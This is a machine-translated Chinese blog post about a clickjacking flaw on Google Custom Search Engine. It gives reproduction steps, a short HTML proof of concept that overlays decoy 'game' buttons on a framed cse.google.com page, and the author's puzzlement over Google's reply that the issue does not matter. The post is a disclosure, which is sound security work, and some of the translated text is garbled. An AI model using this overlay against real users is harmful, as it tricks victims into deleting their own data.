


# 点击谷歌 CSE 上的劫持。这很重要吗？

> 原文：<https://dev.to/kustirama/clickjacking-on-google-cse-is-this-important-3bdk>

当我测试时，我发现 cse.google.com 很容易被点击劫持，所以我检查了设置页面是否有漏洞，它确实有漏洞，所以现在这有风险！攻击者可以删除某人的 CSE。

> 湾。@ abaykandotcom我在 Google CSE 里找到了 Clickjacking，但是据 [@Google](https://twitter.com/Google) 这个其实无所谓。
> 2019 年 2 月 09 日 20:32 分[](https://twitter.com/intent/tweet?in_reply_to=1094333150086320130)[](https://twitter.com/intent/retweet?tweet_id=1094333150086320130)[](https://twitter.com/intent/like?tweet_id=1094333150086320130)

摘要:攻击者可以删除受害者的 CSE。

复制步骤:

1.  前往[https://cse.google.com/](https://cse.google.com/)
2.  它可以嵌入到任何网页中。
3.  攻击者可以操纵 HTML 模板，从而删除受害者的 CSE。

我为点击劫持写了一个漏洞代码，这是漏洞代码:

```
<center>
<div style="position: absolute; left: 100px; top: 10px;"><h3>Let's consider this is a game!</h3></div>
<div style="position: absolute; left: 100px; top: 40px;"><h3>To finish it, you have to press the keys in sequence.</h3></div>
<div style="position: absolute; left: 205px; top: 278px; color: red;"><button>1</button></div>
<div style="position: absolute; left: 300px; top: 178px; color: red;"><button>2</button></div>
<div style="position: absolute; left: 400px; top: 475px; color: red;"><button>3</button></div>
<iframe style="opacity: 1; border: 0; position: fixed; top: 0px; left: 0px;" src="https://cse.google.com/" width="100%" height="100%"></iframe> 
```

Enter fullscreen mode Exit fullscreen mode

通过使用点击劫持技术，攻击者可以使某人无意识地删除他们的 CSE。

关于攻击者如何能让某人无意识地删除自己的 CSE，可以查看我的视频 PoC 这里:
[https://www.youtube.com/embed/Fkzm8ZUFZ0E](https://www.youtube.com/embed/Fkzm8ZUFZ0E)
关于解释足够了。

好了，问题才刚刚开始。我上面的发现，在我看来是有效的错误。为什么？因为攻击者可以删除某人的数据(CSE)，这不是 bug 吗？但是我得到的回应却很意外。

[](https://res.cloudinary.com/practicaldev/image/fetch/s--uiiGNKx_--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://i.imgur.com/Yw3bqsn.png)
[T6】](https://res.cloudinary.com/practicaldev/image/fetch/s--lWbMhM0O--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://i.imgur.com/AlYR7FV.png)

让我困惑的部分是，这怎么不是 bug？因为在我脑子里很清楚我可以删除别人的数据。

你怎么想呢?这是个 bug 吗？还是只有我高估了这是个 bug？